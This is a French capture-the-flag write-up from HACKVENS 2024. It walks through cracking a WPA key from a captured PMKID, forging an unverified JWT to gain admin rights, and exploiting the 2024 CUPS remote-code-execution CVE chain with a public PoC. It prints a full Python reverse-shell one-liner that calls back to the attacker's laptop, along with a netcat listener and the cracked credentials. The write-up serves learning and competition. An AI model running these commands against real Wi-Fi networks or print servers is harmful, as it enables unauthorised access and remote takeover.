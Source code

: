J'ai flag ce challenge lors du CTF HACKVENS 2024 à Lille. 
La description du challenge indique qu'une machine est accessible sur le réseau wifi "captaincups-wifi" à l'adresse 192.168.12.1.  

On lance le mode monitor sur notre carte wifi externe (sudo iwconfig wlan0 mode monitor) 
Ensuite on lance un aireplay-ng pour checker les réseaux autours : 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   3E:B0:1E:81:67:3D  -43    0 - 1      0        1                                                                           
 (not associated)   A4:97:B1:15:8E:F5  -73    0 - 6     20        4         captaincups-wifi 
```

Ensuite on nous donne également une capture wireshark avec un seul message eapol (pas le handshake complet habituel à cracker avec aircrack-ng). Néanmoins on retrouve dans le packet les infos dont on a besoin pour crack la pre shared key : 

- La PMKID
- Le SSID
- La mac de l'ap
- La mac du client 

Ensuite on trouve un script sur github pour cracker la pre-shared key avec ces infos : 

```
(PYTHON_TOOLS) eddymalou@parrot:~/Documents/CTF/HACKVENS/web$ python3 crack.py 

PMKID:                     476160903076f4d82091e345e3207f8f
SSID:                      captaincups-wifi
AP MAC Address:            00:22:6b:fb:49:2b
Client MAC Address:        00:c0:ca:62:a4:f6

Attempt crack with these settings? (y/n): y
Attempting to crack password...

e7a8005bd36ba5a9e5e0bcbd4211c51f
7412a40d38d4a8fadd8d1fa96c318458
4d4263d4ce866da5326a6622461cf5b2
0fa989dd03b2166d7acfbf3685c7ac62
d4db1b5a9b2a146c85fe90dcf2a5a40a
ea0011573095ede0f167d47eaab4e9e3
7c8129ea1cb3e0f1ea7d431d4745bf0a
... rock you go brrrrrrrrrrrrrr
0916d4be2a126c895d7a601fc41e1b4b
be2dd1e083afce2435e02fb6930e0b8c
0f0991dc41d0a911ec081e6094484ff9
974bcc37fa8c66d31ddfabcca2faee2f
3c1017956134e4c34ad4cbdf8e901df2
daa217a986f804dbeb8a3b96fe64c9c9
628af9ee99ff42dfc6c62b7967119c05
1ad47773260d02331f28cecad3da2040
7c1adb19fa060c297d70c8694be9d87c
476160903076f4d82091e345e3207f8f - Matches captured PMKID
Password Cracked!

SSID:              captaincups-wifi
Password:          blackcaptain08  
```

On peut se connecter au réseau wifi hidden avec : 

`nmcli dev wifi connect "captaincups-wifi" password "blackcaptain08" hidden yes`

Ensuite en accédant à la machine en 192.168.12.1 on arrive bien sur un serveur web avec un commentaire html : 

`<!-- TODO : Supprimer le compte par défaut user:1_a10V3_Z4Z0U -->`

Dans robots.txt on trouve les informations suivantes 

![Image robots.txt](HACKVENS/2024/images/robots_text.png)

![Image todo.txt](HACKVENS/2024/images/todo_text.png)

-------------------------------------------------------

Ensuite on se connecte avec le user donné via les commentaires html et on a un JWT mais la signature n'est pas vérifiée, on peut juste le modifier en changeant "user" en "supercaptain" avec jwt.io notamment : 

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJyb2xlIjoic3VwZXJjYXB0YWluIiwiZXhwIjoxNzMyMzI0NzU3fQ.imLNhfONY95-Jev-yQaG8FlCoQo1LtbbRYjSZF-qWfU
```

```
{
  "username": "user",
  "role": "supercaptain",
  "exp": 1732324757
}
```

On peut maintenant refresh là page et on arrive sur ça : 

![Page admin impression](test_impression.png)

En entrant une adresse IP, le serveur déclenche une impression vers cette dernière. Grâce au nom de la capture réseau (cups.pcap), nous comprenons qu'il faut exploiter la / les récentes CVEs sur cups.
En faisant quelques recherches on tombe sur le répo suivant avec un poc et une explication des CVEs : https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain

- **CVE-2024-47176**: Unrestricted Packet Processing on UDP Port 631, allowing unauthenticated remote attackers to force CUPS to contact an attacker's IPP server.
- **CVE-2024-47076**: Improper validation of IPP attributes in `libcupsfilters`, which allows attacker-controlled data to be processed as valid.
- **CVE-2024-47175**: Injection of malicious data into PPD files via `libppd`, allowing for command execution during print jobs.
- **CVE-2024-47177**: Command injection via `foomatic-rip`, allowing attackers to execute arbitrary commands on the system.

La première CVE (47176) est inutile dans notre cas, car nous avons directement un moyen de trigger une impression depuis la web view. Les autres néanmoins sont utiles et permettent d'obtenir une RCE. 
Nous tentons d'utiliser le POC de ce même répo mais sans succès : le port 631 de la machine cible étant fermée le printer discovery ne peut pas s'effectuer correctement. Nous trouvons un autre [PoC](https://github.com/RickdeJager/cupshax) qui lui implémente différement les CVEs : `This PoC uses dns-sd printer discovery, so the target must be able to receive the broadcast message, i.e. be on the same network. `

```
└──╼ #python3 cupshax.py --ip 0.0.0.0 --command "python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"192.168.12.45\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'" --port 8631
[+] Wrapping command in base64...
[+] Command: echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTkyLjE2OC4xMi40NSIsNDQ0NCkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bigiL2Jpbi9zaCIpJw==|base64 -d|sh
[+] Starting IPP server on 0.0.0.0:8631..
```

Ensuite on lance un `nc -lnvp 4444` et on trigger une impression depuis la webview vers notre laptop en `192.168.12.45` : 
![Payload sent](HACKVENS/2024/images/payload_envoye.png)

On chope notre shell et un flag.txt : 
![Fake flag](HACKVENS/2024/images/false_espoir.png)

La solve "légit" était de relancer une impression avec un wireshark qui tourne sur notre laptopt et on extrait le pdf depuis la capture dans le IPP response : 
![IPP response](HACKVENS/2024/images/IPP_response.png)
l
Dans notre cas nous avons simplement `base64 doc/thomas-ruyant-pos.pdf` ctrl + shift + c
Et sur notre laptop `echo -n "base64 string du pdf" | base64 -d > flag.pdf`
![Real flag](HACKVENS/2024/images/flag_final.png)

Le challenge était vraiment sympa mais seul problème les neuilles qui fuzzaient le serveur web pour rien (instance partagée qui a crashée pas mal de fois). Autre galère rencontrée : pas réussir à faire marcher le premier poc. Et je testais ma RCE avec un `python3 -m http.server 1234` en local et un payload du style `curl http://ip_laptop:1234/` mais je ne recevais rien car la machine cible n'avait pas `curl` d'installé :/

